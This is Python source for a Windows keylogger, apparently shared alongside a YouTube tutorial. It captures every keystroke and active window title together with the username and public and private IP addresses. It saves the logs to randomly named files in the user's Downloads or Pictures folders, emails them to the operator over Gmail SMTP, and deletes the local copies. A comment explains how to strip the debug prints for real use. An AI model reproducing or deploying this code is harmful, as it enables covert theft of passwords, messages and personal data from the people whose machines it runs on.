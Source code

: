#//python keylogging program

## You will need to comment out the prints and exception prints on code if you were to use this for real, as its testing
## i have prints on here that will tell you and let you know what part of the program is going at the time and that it is 
## working 

# Surport me and subscribe to my YouTube tutorial channel - https://bit.ly/2U58Lt9 / link also in my description. Thanks.

#imports
from pynput.keyboard import Key,Listener
import win32gui
import os
import time
import requests
import socket
import random
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import threading
import config


datetime = time.ctime(time.time())
user = os.path.expanduser('~').split('\\')[2]
publicIP = requests.get('https://api.ipify.org/').text
privateIP = socket.gethostbyname(socket.gethostname())

msg = f'[START OF LOGS]\n  *~ Date/Time: {datetime}\n  *~ User-Profile: {user}\n  *~ Public-IP: {publicIP}\n  *~ Private-IP: {privateIP}\n\n'
logged_data = []
logged_data.append(msg)

old_app = ''
delete_file = []


def on_press(key):
	global old_app

	new_app = win32gui.GetWindowText(win32gui.GetForegroundWindow())

	if new_app == 'Cortana':
		new_app = 'Windows Start Menu'
	else:
		pass
	
	
	if new_app != old_app and new_app != '':
		logged_data.append(f'[{datetime}] ~ {new_app}\n')
		old_app = new_app
	else:
		pass


	substitution = ['Key.enter', '[ENTER]\n', 'Key.backspace', '[BACKSPACE]', 'Key.space', ' ',
	'Key.alt_l', '[ALT]', 'Key.tab', '[TAB]', 'Key.delete', '[DEL]', 'Key.ctrl_l', '[CTRL]', 
	'Key.left', '[LEFT ARROW]', 'Key.right', '[RIGHT ARROW]', 'Key.shift', '[SHIFT]', '\\x13', 
	'[CTRL-S]', '\\x17', '[CTRL-W]', 'Key.caps_lock', '[CAPS LK]', '\\x01', '[CTRL-A]', 'Key.cmd', 
	'[WINDOWS KEY]', 'Key.print_screen', '[PRNT SCR]', '\\x03', '[CTRL-C]', '\\x16', '[CTRL-V]']

	key = str(key).strip('\'')
	if key in substitution:
		logged_data.append(substitution[substitution.index(key)+1])
	else:
		logged_data.append(key)


def write_file(count):
	one = os.path.expanduser('~') + '/Downloads/'
	two = os.path.expanduser('~') + '/Pictures/'
	#three = 'C:/'
	list = [one,two]

	filepath = random.choice(list)
	filename = str(count) + 'I' + str(random.randint(1000000,9999999)) + '.txt'
	file = filepath + filename
	delete_file.append(file)


	with open(file,'w') as fp:
		fp.write(''.join(logged_data))
	print('written all good')


def send_logs():
	count = 0

	fromAddr = config.fromAddr
	fromPswd = config.fromPswd
	toAddr = fromAddr

	MIN = 10
	SECONDS = 60
	#time.sleep(MIN * SECONDS) # every 10 mins write file/send log
	time.sleep(30) # for debugging ~ yes program works :)
	while True:
		if len(logged_data) > 1:
			try:
				write_file(count)

				subject = f'[{user}] ~ {count}'

				msg = MIMEMultipart()
				msg['From'] = fromAddr
				msg['To'] = toAddr
				msg['Subject'] = subject
				body = 'testing'
				msg.attach(MIMEText(body,'plain'))

				attachment = open(delete_file[0],'rb')
				print('attachment')

				filename = delete_file[0].split('/')[2]

				part = MIMEBase('application','octect-stream')
				part.set_payload((attachment).read())
				encoders.encode_base64(part)
				part.add_header('content-disposition','attachment;filename='+str(filename))
				msg.attach(part)

				text = msg.as_string()
				print('test msg.as_string')

				s = smtplib.SMTP('smtp.gmail.com',587)
				s.ehlo()
				s.starttls()
				print('starttls')
				s.ehlo()
				s.login(fromAddr,fromPswd)
				s.sendmail(fromAddr,toAddr,text)
				print('sent mail')
				attachment.close()
				s.close()

				os.remove(delete_file[0])
				del logged_data[1:]
				del delete_file[0:]
				print('delete data/files')

				count += 1

			except Exception as errorString:
				print('[!] send_logs // Error.. ~ %s' % (errorString))
				pass




if __name__=='__main__':
	T1 = threading.Thread(target=send_logs)
	T1.start()

	with Listener(on_press=on_press) as listener:
		listener.join()
